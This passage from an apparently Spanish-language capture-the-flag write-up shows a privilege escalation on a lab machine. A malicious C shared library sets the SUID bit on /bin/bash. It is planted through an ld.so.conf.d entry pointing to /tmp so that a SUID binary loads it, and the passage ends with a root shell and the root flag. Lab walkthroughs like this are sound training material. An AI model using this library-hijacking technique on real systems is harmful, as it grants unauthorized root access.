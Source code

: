 De esta forma puedo cambiar el orden de prioridad y escalar privilegios. Creo un script en c que se encargue de asignarle el SUID a la bash

```null
genevieve@dab:/tmp$ cat exploit.c 
#include <stdio.h>

void seclogin(){
	setreuid(0);
	system("chmod u+s /bin/bash");
}
```

Compilo el script

```null
genevieve@dab:/tmp$ gcc exploit.c -fPIC -shared -o libseclogin.so
```

Agrego un archivo ```pwned.conf```

```null
genevieve@dab:/etc/ld.so.conf.d$ cat pwned.conf 
/tmp
```

Recargo la configuración

```null
genevieve@dab:/tmp$ ldconfig
```

La ruta de la librería se modifica

```null
genevieve@dab:/tmp$ ldd /usr/bin/myexec 
	linux-vdso.so.1 =>  (0x00007ffd0b9a2000)
	libseclogin.so => /tmp/libseclogin.so (0x00007fc0f36cc000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fc0f3302000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fc0f38ce000)
```

Cuando el binario llame a la función que no encontraba, le asignará el SUID a la bash

```null
genevieve@dab:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Puedo ver la segunda flag

```null
bash-4.3# cat /root/root.txt
dcd84b9d56c809b3d3f3f6b364ee11e0
```